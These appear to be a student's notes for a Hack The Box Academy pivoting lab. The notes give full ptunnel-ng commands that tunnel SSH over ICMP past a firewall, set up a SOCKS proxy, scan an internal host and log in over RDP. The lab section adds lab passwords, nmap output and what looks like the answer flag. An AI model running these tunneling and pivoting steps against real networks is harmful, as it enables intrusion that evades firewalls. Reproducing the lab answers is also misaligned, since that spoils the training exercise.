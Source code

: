# ICMP Tunneling with SOCKS

ICMP tunneling encapsulates your traffic within ICMP packets containing echo requests and responses.

Required that ping responses are permitted by Firewall rules

## Setting Up & Using ptunnel-ng

1) Cloning Ptunnel-ng

git clone https://github.com/utoni/ptunnel-ng.git

2) Building Ptunnel-ng with Autogen.sh

cd ptunnel-ng
sudo ./autogen.sh

3) Transferring Ptunnel-ng to the Pivot Host

scp -r ptunnel-ng ubuntu@$TARGET:~/

4) Starting the ptunnel-ng Server on the Target Host

ssh ubuntu@$TARGET
cd ptunnel-ng
ubuntu@WEB01:~/ptunnel-ng/src$ sudo ./ptunnel-ng -r10.129.202.64 -R22

5) Connecting to ptunnel-ng Server from Attack Host

sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22

6) Tunneling an SSH connection through an ICMP Tunnel

ssh -p2222 -lubuntu 127.0.0.1

7) Viewing Tunnel Traffic Statistics

inf]: Incoming tunnel request from 10.10.14.18.
[inf]: Starting new session to 10.129.202.64:22 with ID 20199
[inf]: Received session close from remote peer.
[inf]: 
Session statistics:
[inf]: I/O:   0.00/  0.00 mb ICMP I/O/R:      248/      22/       0 Loss:  0.0%
[inf]: 

8) Enabling Dynamic Port Forwarding over SSH

ssh -D 9050 -p2222 -lubuntu 127.0.0.1

9) Proxychaining through the ICMP Tunnel

proxychains nmap -sV -sT 172.16.5.19 -p3389

10 ) Network Traffic Analysis Considerations

Wireshark

## LAB

10.129.88.4
git clone https://github.com/utoni/ptunnel-ng.git
cd ptunnel-ng
sudo ./autogen.sh
cd ..
scp -r ptunnel-ng ubuntu@$TARGET:~/
HTB_@cademy_stdnt!

ssh ubuntu@$TARGET
HTB_@cademy_stdnt!
cd ptunnel-ng/src
sudo ./ptunnel-ng -r10.129.88.4 -R22
HTB_@cademy_stdnt!


On our attack host :
cd ptunnel-ng/src
sudo ./ptunnel-ng -p10.129.88.4 -l2222 -r10.129.88.4 -R22

ssh -p2222 -lubuntu 127.0.0.1
HTB_@cademy_stdnt!

ssh -D 9050 -p2222 -lubuntu 127.0.0.1
HTB_@cademy_stdnt!

proxychains nmap -sV -sT 172.16.5.19 -p3389

Nmap scan report for 172.16.5.19
Host is up (0.0092s latency).

PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.35 seconds

proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
N3Tw0rkTunnelV1sion!
